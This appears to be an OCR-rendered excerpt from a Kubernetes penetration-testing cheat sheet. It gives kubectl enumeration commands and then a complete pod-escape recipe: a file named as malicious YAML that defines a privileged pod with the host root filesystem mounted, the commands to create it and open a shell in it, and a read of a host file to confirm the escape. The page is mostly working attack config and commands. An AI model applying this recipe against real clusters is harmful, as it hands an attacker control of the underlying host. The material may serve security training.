 Enumerate:
```bash
kubectl get pods
kubectl get nodes
kubectl get svc #services
```

> Get shell to other Pods to enumerate even more


## Pod Escaping

- Create a malicious Pod, get a shell and escape to the Host


maliicous.yaml
```yml
apiVersion: v1
kind: Pod
metadata:
  name: attacker
  labels:
   app: attacker
spec:
 containers:
 - name: attacker
   image: hackingkubernetes/api:latest
   imagePullPolicy: IfNotPresent
   volumeMounts:
    - name: hostsvolume
      mountPath: /attacker
   ports:
    - containerPort: 80
   securityContext:
    privileged: true
 volumes:
 - name: hostsvolume
   hostPath:
    path: /
```

Create the Pod:
```bash
kubectl apply -f malicious.yaml
# apply or create can be used
```

Get a shell in the malicious Pod created:
```bash
kubectl exec -it <malicious Pod's name> /bin/sh
```

Because the yaml had the mountpath configured, we can access the host file system

```bash
cat /attacker/etc/hostname
#worker1
```

